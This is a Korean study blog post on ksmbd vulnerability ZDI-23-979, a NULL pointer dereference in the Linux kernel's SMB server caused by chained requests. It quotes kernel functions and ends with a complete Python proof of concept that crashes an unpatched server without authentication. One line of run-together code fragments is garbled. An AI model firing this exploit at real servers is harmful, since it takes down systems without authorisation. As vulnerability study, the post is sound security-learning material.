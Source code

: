 ```yaml
---
layout: post
title: "ksmbd - 1. ZDI-23-979"
categories:
  - Pwnable
tags:
  - pwn
  - kernel
last_modified_at: 2025-10-13
---
```


오늘 읽을 자료는 [https://pwning.tech/ksmbd/](https://pwning.tech/ksmbd/)
리눅스 커널의 ksmbd 부분에 대해 알아보자. 

여담으로 짚고 넘어가면 좋은 부분이 
* ZDI란? 

# ZDI-22-1690 
리눅스 커널 ksmbd 하위 시스템에 존재하는 unauthentication RCE vul이다. ksmbd는 Kernel SMB Daemon의 약자로, 커널에서 SMB server 역할을 한다(Windows에서 많이 볼 수 있다. 시스템 보안 2주차에서도 나왔던듯)

SMB 관련한 취약점은 많은데 이게 커널에 도입 되었다. 해당 post에서는 ksmbd 시스템의 취약점을 조사할 예정이다. 

ZDI-23-979
ZDI-23-980 

# SMB 
SMB는 Server Message Block의 약자로, 윈도우에서 많이 쓰는 파일 전송 프로토콜이다. SMB에서 제공하는 기능은 다음과 같다. 

1. file Read, Write 
2. Directory info access 
3. authentication 

Windows OS에서는 SMB를 통합하기 위해 Windows에서 사용하는 다양한 인증 방식을 제공한다(NTLMSSP, kerberos 5, Microsoft Kerberos 5, U2U auth) 

여기서 RAM이나 disk 저장 공간에서 resource 낭비를 방지하기 위해 credit system을 사용한다. 각 명령이 세션에서 크레딧을 차감하는 시스템 
* 원문 살펴볼 필요가 있다. 

## SMB 프로토콜 

여러개의 명령을 하나의 네트워크 패킷에 담아 보냄 -> 컴파운딩/체이닝 기능 

# ZDI-23-979 : NULL pointer 역참조 DoS 

chained SMB request packet의 session 처리 과정에서 발생하는 logical bug -> NULL pointer 역참조 취약점이 발생한다. 

1. 패킷의 첫번째 요청에 대한 세션 처리 
2. 패킷의 두번째 요청도 동일한 세션 인스턴스 사용 

if 첫번째 요청에서 세션을 사용하지 않으면, 
-> 두번째 요청도 세션을 사용하지 않음 

이때 세션 auth 검사를 건너뛸 수 있어서 인증 우회가 발생할 수 있다. 그런데 post에서는 인증 우회에 대해 언급하진 않고 인증을 처리하기 위해 요청 세션의 속성에 접근 -> 근데 세션을 사용하지 않은 요청에 한해 NULL 포인터를 역참조하게 된다. 

__handle_ksmbd_work 함수
모든 패킷을 연결할 때마다 해당 함수가 호출됨 

```c
static void __handle_ksmbd_work(struct ksmbd_work *work,
				struct ksmbd_conn *conn)
{
	u16 command = 0;
	int rc;

	// [snip] (initialize buffers) 

	if (conn->ops->check_user_session) {
		rc = conn->ops->check_user_session(work);

		// if rc != 0 goto send (auth failed)
		if (rc < 0) {
			command = conn->ops->get_cmd_val(work);
			conn->ops->set_rsp_status(work,
					STATUS_USER_SESSION_DELETED);
			goto send;
		} else if (rc > 0) {
			rc = conn->ops->get_ksmbd_tcon(work);
			if (rc < 0) {
				conn->ops->set_rsp_status(work,
					STATUS_NETWORK_NAME_DELETED);
				goto send;
			}
		}
	}

	do {
		rc = __process_request(work, conn, &command);
		if (rc == SERVER_HANDLER_ABORT)
			break;

	    // [snip] (set SMB credits)
	} while (is_chained_smb2_message(work));

	if (work->send_no_response)
		return;

send:
	// [snip] (send response)
}
```

위 코드를 살펴보면 if (conn->ops->check_user_session) 으로 첫번째 요청에 대한 user_session만 확인한다. 

세션 확인은 1번 
실제 명령 처리는 여러 번 

아 연결과 process_request와는 달라서 

1. if (conn -> ops -> check_user_session)
2. __process_request 호출 -> SMB 명령은 여기서 처리 

```c
if (conn->ops->check_user_session) {
		rc = conn->ops->check_user_session(work);

		// if rc != 0 goto send (auth failed)
		if (rc < 0) {
			command = conn->ops->get_cmd_val(work);
			conn->ops->set_rsp_status(work,
					STATUS_USER_SESSION_DELETED);
			goto send;
		} else if (rc > 0) {
			rc = conn->ops->get_ksmbd_tcon(work);
			if (rc < 0) {
				conn->ops->set_rsp_status(work,
					STATUS_NETWORK_NAME_DELETED);
				goto send;
			}
		}
```

conn->ops->check_user_session(work)req_hdr->SessionIdreq_hdr->SessionIdwork->sess = ksmbd_session_lookup_all(conn, sess_id)work->sess = NULL

```
int smb2_check_user_session(struct ksmbd_work *work)
{
	struct smb2_hdr *req_hdr = smb2_get_msg(work->request_buf);
	struct ksmbd_conn *conn = work->conn;
	unsigned int cmd = conn->ops->get_cmd_val(work);
	unsigned long long sess_id;

	/*
	 * SMB2_ECHO, SMB2_NEGOTIATE, SMB2_SESSION_SETUP command do not
	 * require a session id, so no need to validate user session's for
	 * these commands.
	 */
	if (cmd == SMB2_ECHO_HE || cmd == SMB2_NEGOTIATE_HE ||
	    cmd == SMB2_SESSION_SETUP_HE)
		return 0;

	// [snip] (check conn quality)

	sess_id = le64_to_cpu(req_hdr->SessionId);

	// [snip] (chained request logic that was unused)

	/* Check for validity of user session */
	work->sess = ksmbd_session_lookup_all(conn, sess_id);
	if (work->sess)
		return 1;
	
    // [snip] (invalid session handling)
}
```

만약 첫번째 명령이 SMB2_ECHO_HE 이고 두번째 명령은 SMB2_WRITE라면, work->sess는 smb2_write()에서 NULL이 될 것이다. 

이걸 역참조하게 되니까 -> 강제 종료 일어나면서 DoS 


```
#!/usr/bin/env python3

from impacket import smb3, nmb
from pwn import p64, p32, p16, p8


def main():
    print("[*] connecting to SMB server (no login)...")

    try:
        conn = smb3.SMB3("127.0.0.1", "127.0.0.1", sess_port=445, timeout=3)
    except nmb.NetBIOSTimeout:
        print("[!] SMB server is already offline (connection timeout)")
        return

    # generate innocent SMB_ECHO request
    request_echo = smb3.SMB3Packet()
    request_echo['Command'] = smb3.SMB2_ECHO
    request_echo["Data"] = p16(4) + p16(0)
    request_echo["NextCommand"] = 64+4  # set NextCommand to indicate request chaining

    # generate innocent SMB_WRITE request
    request_write = smb3.SMB3Packet()
    request_write['Command'] = smb3.SMB2_WRITE
    request_write["Data"] = p16(49) + p16(0) + p32(0) + p64(0) + p64(0) + p64(0) + p32(0) + p32(0) + p16(0) + p16(0) + p32(0) + p8(0)
    request_write["TreeID"] = 0

    # chain SMB_WRITE to SMB_ECHO
    request_echo["Data"] += request_write.getData()

    print('[*] sending DoS packet...')
    conn.sendSMB(request_echo)

    print("[*] probing server health...")

    try:
        smb3.SMB3("127.0.0.1", "127.0.0.1", sess_port=445, timeout=3)
        print("[!] exploit failed - server remains online")
    except nmb.NetBIOSTimeout:
        print("[+] exploit succeeded - server is now offline")


if __name__ == "__main__":
    main()
```


